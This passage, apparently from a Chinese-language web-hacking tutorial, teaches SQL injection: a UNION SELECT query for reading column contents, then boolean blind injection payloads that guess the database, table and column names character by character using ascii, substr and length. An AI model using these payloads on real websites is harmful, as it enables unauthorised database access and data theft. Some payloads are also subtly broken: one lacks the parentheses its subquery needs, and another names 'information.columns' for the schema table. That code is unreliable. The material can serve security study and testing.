 ### 查看字段内容

```
union select 1,2,3,......,字段名 from 表名 limit 0,1
```

## **0x03 盲注(布尔盲注、延时盲注)**

在使用and 1=1 和 and 1=2时发现可能存在注入，但是并没有回显点的时候可以尝试使用布尔盲注。

当使用and 1=1 和 and 1=2时发现都出现正确页面，可能存在延时盲注，需要进一步测试

### 函数

1. length()

返回字符串的长度

2. substr()

截取字符串。语法：substr(str,pos,len)

3. ascii()

返回字符的ascii码【将字符变为数字】

4. sleep()

将程序挂起一段时间n，n为n秒

5. if(expr1,expr2,expr3)

判断语句：如果第一个语句正确就执行第二个语句，否则就执行第三个语句

### 布尔盲注

1. 猜解当前数据库名称长度

```
and (length(database()))>9
```

2. 利用ASCII码猜解当前数据库名称

```
and (ascii(substr(database(),1,1)))=115   // 返回正常，说明数据库名称第一位是s
and (ascii(substr(database(),2,1)))=101    // 返回正常，说明数据库名称第二位是e
```

3. 猜表名

```
and (ascii((substr(select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101    // 返回正常，说明数据表名的第一个第一位是e
```

4. 猜字段名

```
and (ascii(substr((select column_name from information.columns where table_name='表名' limit 0,1),1,1)))=102    // 返回正常，说明表中的列名称第一位是f
```
